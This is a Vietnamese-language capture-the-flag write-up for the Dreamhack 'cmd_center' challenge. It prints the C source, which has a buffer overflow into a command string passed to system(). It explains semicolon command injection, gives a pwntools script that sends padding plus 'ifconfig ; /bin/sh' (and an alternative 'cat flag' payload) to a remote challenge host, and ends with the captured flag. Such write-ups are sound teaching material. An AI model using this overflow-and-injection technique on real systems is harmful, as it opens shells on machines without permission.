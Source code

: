# cmd_center

trước khi cùng giải chall này thì ta cần tìm hiểu thêm tại liệu tại đây

**dreamhack:** https://learn.dreamhack.io/1#3

**source C:**

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void init() {
	setvbuf(stdin, 0, 2, 0);
	setvbuf(stdout, 0, 2, 0);
}

int main()
{

	char cmd_ip[256] = "ifconfig";
	int dummy;
	char center_name[24];

	init();

	printf("Center name: ");
	read(0, center_name, 100);


	if( !strncmp(cmd_ip, "ifconfig", 8)) {
		system(cmd_ip);
	}

	else {
		printf("Something is wrong!\n");
	}
	exit(0);
}

```

oke ở bài này **có lỗi BOF tại center_name**

ở trong hàm if **có hàm system(cmd_ip)**

**điều kiện của if là so sánh 8byte đầu của cmd_id với ifconfig**

nếu vậy thì ta phải giữ nguyên cmd_ip rồi, nma nếu vậy thì khi chạy vô hàm system thì nó sẽ thành system(ifconfig) và ta sẽ ko thấy được shell đâu

**để giải quyết bài này thì cùng phân tích tài liệu ở trên** 

![image](https://github.com/gookoosss/CTF/assets/128712571/cedceb6c-22ac-4bf0-915f-4f43f57031fb)


ở ví dụ trong tài liệu, ta thấy là nếu ta nhập vào **ping -c 2 127.0.0.1;/bin/sh** giống trong ảnh , thì hàm **system sẽ thực thi ping -c 2 127.0.0.1 trước sau đó sẽ thực thi /bin/sh**

![image](https://github.com/gookoosss/CTF/assets/128712571/355d7dd2-46cd-49c2-9922-3a6bd10bdf8b)



quay lại chall thì ta debug thử 

![image](https://github.com/gookoosss/CTF/assets/128712571/f20a5943-4c62-42f5-9a7c-21a6e4f43027)


**ở đây ta có thể tràn biến xuống và thay đổi cmd_ip**

bây giờ ta sẽ nhập **32byte a + ifconfig;/bin/sh** thì đã lấy được shell rồi

![image](https://github.com/gookoosss/CTF/assets/128712571/003f513e-c25f-46dd-87d8-40fd3da9e02a)


### giải thích:

- khi ta nhập vào **32byte a + ifconfig;/bin/sh** thì giá trị của **cmd_ip lúc này sẽ là ifconfig;/bin/sh** 
- lúc này **system(cmd_ip) sẽ thành system(ifconfig;/bin/sh)**, như phân tích ở trên thì lúc này nó tương đương như  system(ifconfig) và system(/bin/sh) vậy
- có system(/bin/sh) rồi thì ta sẽ dễ dàng lấy được shell

``` c
system(ifconfig;/bin/sh) == system(ifconfig) + system(/bin/sh) 
```

## script:

```python 
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./cmd_center',checksec=False)

#p = process(exe.path)
p = remote('host3.dreamhack.games',23853)

payload = b'A'*32
payload += b'ifconfig ; /bin/sh'
#payload += b'ifconfig | cat flag' // cách 2
p.sendafter(b'Center name: ',payload)

p.interactive()

# DH{f4c11bf9ea5a1df24175ee4d11da0d16}

```

## Flag:

**DH{f4c11bf9ea5a1df24175ee4d11da0d16}**


